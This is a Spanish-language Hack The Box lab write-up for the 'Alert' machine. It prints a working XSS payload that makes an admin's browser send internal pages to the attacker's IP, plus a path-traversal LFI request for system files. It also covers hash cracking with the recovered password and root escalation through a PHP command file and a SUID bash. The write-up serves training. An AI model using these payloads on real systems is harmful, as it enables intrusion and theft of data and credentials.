Alert¶
10.129.231.188

Hay nodos intermedios en la conexión con HTB

Vemos un file uploader pero parece que solo deja subir archivos .md, he realizado un atacker modo sniper desde burp con extensiones de todo tipo php pero no permite a simple vista.
Hay más input text sobre email, message y numero pero parecen no tener sxx o sqli
Gobuster nos reporta algunos directorios pero sin permisos para acceder

Intentaremos subir un archivo .md Si buscamos "Markdown sheet cheat" vemos que es un archivo que interpreta comandos de formato de texto parecido a obsidian por ejemplo

- Interpreta el código

Los archivos .md por definición interpretan código html por lo que podríamos intentar ejecutar código js en él

Efectivamente podemos ejecutar código desde este archivo
Vemos que hay un botón de compartir enlace de archivo abajo a la derecha Share Markdown, por lo que esto es un vector muy peligroso de intrusión. Cualquier persona que entre en ese enlace ejecutará el código incrustado en el archivo .md (con sus privilegios de usuario) El botón Share Markdown nos lleva a un recurso http://alert.htb/visualizer.php?link_share=69163ed413ba82.82007473.md El cual si conseguimos que pinche alguien , ejecutará el contenido del archivo malicioso que subamos
En el apartado de Contact Us vemos que se puede enviar un mensaje al admin. Este admin se nos dice en la pestaña de About Us que estará atento y resolverá el problema rápidamente. Probemos a enviarle en el mensaje una url hacia un servidor http levantado en nuestra máquina a ver si hace click

Con el servidor http levantado en K en el puerto 80

Efectivamente hace click e intenta recuperar el archivo /pwned, que en este caso no existe
Si ahora subimos un archivo .md en js que haga referencia a un servidor que tengamos levantado en K, al subir el archivo vemos que se realiza la solicitud


Se comprueba que si le pasamos al admin por el portal de contacto la url que hace referencia al archivo test.md subido, se realizará una solicitud hacia nuestro archivo pwned.js con el que podremos exfiltrar información sobre algún recurso al cual el admin tenga acceso
Por ejemplo el recurso alert.htb/index.php?page=messages

Vemos que el recurso existe pero parece que no tenemos acceso. Sabemos que existe porque si escribiéramos cualquier cosa en el parámetro page salta un error

- Este parámetro page parece ser que internamente es concatenado a la url o algo parecido para mostrar el recurso ya sea contact - messages - alert - about, etc.
Cambio de IP en Kali -> 10.10.16.54
Código de pwned.js para leer el contenido de messages:
// 1 - Pedir el recurso interno "messages" (existe pero no lo vemos directamente)
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?page=messages', false);
req.send();
// La respuesta queda almacenada en req.responseText
// 2 - Exfiltrar esa respuesta (en base64) hacia nuestro Kali
var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.54/?bs64=' + btoa(req.responseText), false);
exfil.send();
En 1 haremos que la persona que pincha en el enlace envíe una petición hacia el recurso messages que aparentemente existe pero no muestra contenido.
En 2 haremos que este usuario envíe una petición GET hacia nuestro kali. En esta petición irá el parámetro bs64 con la información de la respuesta de la petición al recurso messages (almacenado en req.responseText). Además, el contenido del parámetro, que es el contenido del html de la página messages, irá en base64 para no romper la url en la petición.
- Ambas peticiones se harán con el modo asíncrono en false para que las peticiones se tramiten una detrás de la otra y así la información se sincronice bien
Le pasamos el enlace compartido del archivo test.md en el apartado de contactos, para que el usuario ejecute el
Y recupere el archivo pwned.js que hará las peticiones GET mencionadas anteriormente, el resultado en nuestro servidor levantado en python en el puerto 80 será

Decodificaremos el el contenido del parámetro
Obtenemos el contenido del html de messages que ve el administrador que atiende a las peticiones de Contact Us

Vemos que se hace referencia a un archivo interno del servidor 2024-03-10_15-48-34.txt Podríamos probar un LFI apuntando a un recurso interno del sistema como /etc/passwd Cambiamos la dirección a la que se realiza la petición en pwned.js
Conseguimos efectuar el LFI y obtenemos el valor de /etc/passwd, filtramos por todo lo que acabe en sh con

Vemos varios usuarios del sistema root, albert, david
Intentaremos acceder a archivos más sensibles como el que muestra posible ruta absoluta y subdominios existentes sobre los que está montado el servidor. Este archivo es:
/etc/apache2/sites-available/000-default.conf
Cambiaremos el valor de la ruta del LFI en pwned.js
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../../etc/apache2/sites-available/000-default.conf', false);
Obtenemos info sobre el servername alert.htb

Y obtenemos también información sobre un subdominio

statistics.alert.htb
Este subdominio se podría haber encontrado por fuerza bruta con gubster
gobuster vhost -u http://alert.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
vhost: para subdominios
--append-domain: prueba con 'subdominio'.alert.htb y no alert.htb.'subdominio'
-r: al realizar las peticiones, hay muchos nombres de subdominio que devuelven un 301 redirect, con este parámetro lo que hace la petición es seguir hasta el código de estado final para ver si de verdad ese nombre de subdominio con el que está probando va a algún sitio.
encontramos también statistics.alert.htb
Meteremos ese subdominio también en /etc/hosts para que resuelva a la ip Al escribir ahora en el buscador http:/statistics.alert.htb obtenemos un panel de autenticación

Aparentemente no tenemos credenciales
En la información acerca del subdominio se informa de un /.htpasswd Obtenemos resultado

albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
Meteremos la línea con usuario:pswd en un archivo y usaremos hashcat para crackear el hash
--user: para decirle que el hash contempla dentro un usuario albert:manchesterunited
Conseguimos autenticarnos en el panel con las credenciales y vemos una página con datos, dashboards y emails

Intenamos conectarnos por ssh a ver si se reutilizan credenciales
albert
Escalada¶
Vemos que el usuario albert está en un grupo llamado management

Vamos a buscar que archivos a nivel de grupo tienen asignado management
Encontramos un /opt/website-monitor con un archivo config, que no contiene nada. Vamos a investigar que es eso de website-monitor con el index.php - Parece no haber nada
Miramos puertos internos abiertos con
--> comando -->


Vemos en local el puerto 8080 abierto
Vamos a traer el contenido de ese puerto con curl
Vemos el contenido de un serivicio que parece que tiene partes de código compartidas con el recurso /website-monitor visto anteriormente. Estas partes de código son Website Monitor is an open source project inspired by...
Aplicamos Local Port Forwarding hacia el puerto 8080 de nuestra máquina con -L Desde nuestro kali:
- -L [puerto_local]:[host_remoto_ssh]:[puerto_remoto]
Si hacemos en nuestro buscador ahora localhost:8080
Vemos un sistema de monitoreo de los subdominios

Buscamos procesos levantados en la máquina víctima relacionados con este servicio para obtener potenciales vías de escalada
Vemos que root está ejecutando un servicio en 127.0.0.1:8080 precisamente de /opt/website-monitor en con usr/bin/php

Volviendo a la ruta donde reside este servicio en /opt/website-monitor, vemos que tenemos permisos de escritura sobre el directorio monitors, es decir podemos crear archivos.

Teniendo en cuenta que el servicio interpreta php (está lanzado con /usr/bin/php) podríamos crear un archivo php que ejecutara comandos
Cuando indexamos ese recurso en el buscador de nuestro kali

Vemos que ejecuta comandos
Lo que haremos ahora será asignarle permiso a la bash para que sea SUID

Ahora la bash podrá ser ejecutada con privilegios por cualquier usuario

root